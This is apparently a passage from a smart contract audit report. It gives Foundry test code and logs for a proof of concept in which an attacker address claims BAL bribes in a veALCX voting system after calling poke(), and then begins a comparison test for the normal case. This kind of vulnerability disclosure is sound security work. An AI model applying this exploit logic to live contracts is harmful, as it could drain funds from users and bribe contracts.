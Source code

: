 ```solidity
        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 
        
        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);        

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
    
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 
        
    }


```

The full log: 
```
[PASS] testBribeClaimingPoke_Hacked_2() (gas: 4470612)
Logs:
  Bal balance of Bribe contract: 100000000000000000000000
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
  earnedBribes0 0
  earnedBribes2 0
  earnedBribes3 0
  Fast forward 1 epoch
  earnedBribes1 25000000000000000000000
  Bal balance of attacker: 25000000000000000000000
  earnedBribes2 25000000000000000000000
  earnedBribes3 25000000000000000000000
  Bal balance of Alice: 25000000000000000000000
  Bal balance of Bob: 25000000000000000000000
  Bal balance of Bribe contract: 25000000000000000000000
```

## testBribeClaimingPoke_Normal() 
I also created the test case for a normal scenario

```solidity
function testBribeClaimingPoke_Normal() public {

      
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
```